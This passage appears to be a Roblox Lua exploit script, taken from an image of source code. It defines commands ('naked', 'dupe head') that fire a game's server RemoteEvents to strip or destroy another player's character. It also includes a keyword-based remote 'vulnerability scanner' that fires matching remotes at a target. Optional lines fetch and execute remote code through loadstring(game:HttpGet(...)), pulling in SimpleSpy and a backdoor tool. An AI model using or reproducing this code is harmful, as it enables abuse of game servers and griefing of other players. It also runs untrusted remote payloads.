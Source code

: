 	for i,v in pairs(game:GetDescendants()) do
		if v:IsA("RemoteEvent") then
			for x,z in pairs(PingWords) do
				if string.find(v.Name:lower(), z:lower()) then
					warn("Possible Vulnerability found : ".. v.Name.. " | "..v.ClassName)
					table.insert(PossibleRemotes, v)
				end
			end
		end
	end

	if load_DestroyToolTest == true then
		for i,v in pairs(PossibleRemotes) do
			v:FireServer(game:GetService("Players")[Player.Value].Character.Head)
		end
	end

	if game.PlaceId == 3554069044 then
		game:GetService("ReplicatedStorage").Events.Tools.ChangeParent:FireServer(game:GetService("Players")[Player.Value].Character.Head, game.JointsService)
	end
end)

CreateCMD("naked",function()
	if game.PlaceId == 3554069044 then
		game:GetService("ReplicatedStorage").Events.Tools.ChangeParent:FireServer(game:GetService("Players")[Player.Value].Character.Shirt, game.JointsService)
		game:GetService("ReplicatedStorage").Events.Tools.ChangeParent:FireServer(game:GetService("Players")[Player.Value].Character.Pants, game.JointsService)
	end
end)

CreateCMD("dupe head",function()
	--[[
	    Simple vulnerability scanner v1.1
	    Made by 0fiiz#7952
	]]--


	local load_BackdoorEXE = false
	local load_SimplySpy = false
	local load_DestroyToolTest = true

	if load_SimplySpy == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/exxtremestuffs/SimpleSpySource/master/SimpleSpy.lua%22"))()
	end

	if load_BackdoorEXE == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/v8/src/main.lua%22"))()
	end

	local PingWords = {
		"destroy",
		"delete",
		"del",
		"place",
		"remove",
		"replicate",
		"loadstring",
		"rev",
		"admin",
		"create",
		"property",
		"spawn",
		"clear",
		"trash",